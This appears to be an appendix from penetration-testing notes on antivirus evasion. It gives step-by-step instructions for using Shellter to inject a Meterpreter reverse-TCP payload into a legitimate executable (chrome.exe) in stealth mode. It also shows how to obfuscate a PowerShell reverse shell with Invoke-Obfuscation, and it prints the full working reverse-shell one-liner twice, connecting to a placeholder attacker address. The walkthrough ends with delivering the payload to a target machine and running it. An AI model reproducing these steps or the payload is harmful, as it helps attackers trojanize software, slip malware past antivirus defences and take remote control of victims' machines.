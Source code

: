 # Appendix A. Antivirus Evasion

## AV evasion with shellter:

* Shellter is a dynamic shellcode injection tool aka dynamic PE infector. It can be used in order to inject shellcode into native Windows applications (currently 32-bit apps only). The shellcode can be something yours or something generated through a framework, such as Metasploit. Shellter takes advantage of the original structure of the PE file and doesn’t apply any modification such as changing memory access permissions in sections (unless the user wants to), adding an extra section with RWE access, and whatever would look dodgy under an AV scan.
* Install (https://www.kali.org/tools/shellter/)
* How to use (example)
  * Start shellter
  * Choose operation mode: `A` (automatic)
  * PE target: `/path/to/file/chrome.exe`
  * Enable stealth mode? `Y` (in this way the executable works as intended)
  * Select the payload you want (you can also generate a new one)
    * For this example we select a listed payload (meterpreter reverce tcp)
  * Set lhost and lport
  * Now the exe will be overwrite (but shellter creates a backup of the original exe)
  * Set listener (ex. multi/handler), download the exe on the target machine and execute

## AV evasion for powershell script - Invoke-Obfuscation

* https://github.com/danielbohannon/Invoke-Obfuscation
* Require powershell (`sudo apt install powershell -y`). You can run powershell with `pwsh`
* cd into invoke-obfuscation folder
* `Import-Module ./Invoke-Obfuscation.psd1`
* `Invoke-Obfuscation`
* Copy a reverse shell in poweshell (example): `powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`
* Remove `powershell -nop -c` and `" "`
* `$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()`
* Set lhost and lport and save (example) as `shell.ps1`
* On Invoke-Obfuscation `SET SCRIPTPATH /path/to/shell.ps1`
* Set `AST` options (The AST options works better with windows 10...
* Choose one of the AST module: `ALL`
* Choose one of the AST\ALL options to apply to current payload: `1`
* In the result you will get the result obfuscated code. Copy and save the code
* Set listener (ex. multi/handler), download the exe on the target machine and execute
